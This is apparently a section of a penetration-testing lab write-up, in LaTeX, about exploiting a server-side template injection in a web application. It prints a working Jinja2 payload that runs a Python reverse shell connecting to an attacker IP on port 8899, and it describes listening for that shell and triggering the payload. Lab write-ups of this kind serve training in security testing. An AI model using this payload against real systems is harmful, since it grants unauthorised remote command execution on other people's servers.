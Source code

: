 \documentclass[../main.tex]{subfiles}
\begin{document}
After reading some articles on this topic, we will try to perform a test injection.
\vspace{1cm}
\begin{figure}[!h]
  \centering
  \hfill
\end{figure}
\vspace{1cm}
We have a breakthrough, Server Side Injection works! \\
Then I enumerated possible Server Side Injection possibilities. While searching for a reverse shell injection I noticed that the python injection gets rejected constantly. However, with this script we managed to successfully start a reverse shell.

\clearpage
By posting it as a new title.
\begin{lstlisting}
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((\"10.10.14.156\",8899));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call([\"/bin/sh\", \"-i\"]);'").read().zfill(417)}}
{%endif%}
{% endfor %}
\end{lstlisting}

After we posted the new message we start to listen to the 8899 ports on our host machine. Now we navigate to the archive page to activate SSTI.

We note that a reverse shell has been launched between us and the target.

\includegraphics[width=\linewidth]{images/Nicolai/doctor_reverse_nc.png}
\clearpage
\end{document}
